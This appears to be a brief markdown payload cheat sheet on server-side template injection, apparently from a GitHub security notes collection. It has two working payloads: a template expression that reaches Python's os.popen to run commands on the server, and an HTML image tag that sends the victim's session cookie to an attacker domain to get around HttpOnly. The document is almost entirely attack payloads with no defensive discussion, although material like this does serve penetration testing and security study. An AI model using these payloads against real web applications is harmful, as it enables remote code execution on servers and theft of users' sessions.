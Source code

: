 # Template Injection

## Table of Contents
- [RCE](#rce)
- [Client-Side Protection Bypass](#client-side-protection-bypass)

## RCE

### Arbitrary commands can be executed remotely.

- RCE
  ```python
  {{ self._TemplateReference__context.config.__class__.__init__.__globals__['os'].popen('whoami').read() }}
  ```

## Client-Side Protection Bypass

### Client-side protections can be bypassed.

- Bypassing HttpOnly and Exfiltrating Session Cookie Value
  ```javascript
  <img src=https://[ATTACKER-DOMAIN]/?cookie={{request.cookies.session}}>
  ```